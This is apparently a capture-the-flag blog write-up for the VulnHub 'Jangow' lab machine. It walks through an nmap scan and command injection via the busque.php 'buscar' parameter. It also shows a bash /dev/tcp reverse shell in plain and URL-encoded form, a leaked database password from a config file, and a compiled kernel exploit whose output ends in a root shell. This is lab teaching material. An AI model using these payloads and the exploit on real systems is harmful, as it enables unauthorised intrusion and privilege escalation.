 ```yaml
---
title: Jangow - Writeup
author: Elman Alizadeh
date: 2022-05-25 20:00:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, jangow]
---
```


Today we will take a look at Vulnhub: Jangow. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-jangow/1.png" | relative_url }})

## Network scan

```console
nmap -p- -sV -sC -oN result/nmap/log.txt --open 192.168.0.110

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
Service Info: Host: 127.0.0.1; OS: Unix
```

## Web

http://192.168.0.110/site/busque.php?buscar=ls

![Desktop View]({{ "/assets/img/vuln-jangow/2.png" | relative_url }})

## Reverse Shell

[Reverse_Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```console
/bin/bash -l > /dev/tcp/192.168.0.107/443 0<&1 2>&1
```
we need to encode the url as we will execute in the url section

[Url_encode](https://www.urlencoder.org/)

```console
%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F80%200%3E%261%20%27
```

## jangow01

Command: cat wordpress/config.php

```console
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

Command: su jangow01

## Root

Command: uname -a

```console
Linux jangow01 4.4.0-31-generic
```

[Exploit](https://www.exploit-db.com/exploits/45010)

```console
jangow01@jangow01:/tmp$ nano exploit.c

jangow01@jangow01:/tmp$ gcc exploit.c -o exploit

jangow01@jangow01:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003bb8b900
[*] Leaking sock struct from ffff880037952000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880034d0ae40
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880034d0ae40
[*] credentials patched, launching shell...
# /bin/bash -i
root@jangow01:/tmp# cd /root

root@jangow01:/root# ls
proof.txt

root@jangow01:/root# cat proof.txt
```

![Desktop View]({{ "/assets/img/vuln-jangow/3.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-jangow/4.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”